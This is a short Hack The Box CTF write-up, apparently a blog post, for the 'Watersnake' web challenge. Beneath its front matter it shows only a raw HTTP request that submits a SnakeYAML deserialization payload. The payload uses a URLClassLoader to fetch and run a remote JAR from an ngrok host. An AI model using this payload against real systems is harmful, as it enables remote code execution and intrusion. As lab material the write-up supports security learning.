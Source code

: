 ```yaml
---
title: "Htb web chall ctf 2024 - solved challenges - part 3"
excerpt: "August 22, 2024 08:00 AM ICT to August 22, 2024 04:00 PM ICT"
header:
show_date: true
header:
  teaser: "../assets/images/images-icon/htb.jpg"
  teaser_home_page: true
  icon: "https://hackmd.io/_uploads/By3gJwG0h.png"
categories:
  - CTF
tags:
  - CTF
  - Vietnamese
---
```


<p align="center">
<img src="https://l3mnt2010.github.io/assets/images/images-icon/htb.jpg">
</p>

# Hack the box

## Watersnake

![image](https://hackmd.io/_uploads/H1NMp5fuR.png)


```
POST /update HTTP/1.1
Host: 83.136.255.222:50084
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://83.136.255.222:50084/update.html
Content-Type: multipart/form-data; boundary=---------------------------56413677111823040781259599420
Content-Length: 322
Origin: http://83.136.255.222:50084
Connection: close
Priority: u=0

-----------------------------56413677111823040781259599420
Content-Disposition: form-data; name="config"

!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://0.tcp.ap.ngrok.io:11632/yaml-payload.jar"]
  ]]
]
-----------------------------56413677111823040781259599420--

```
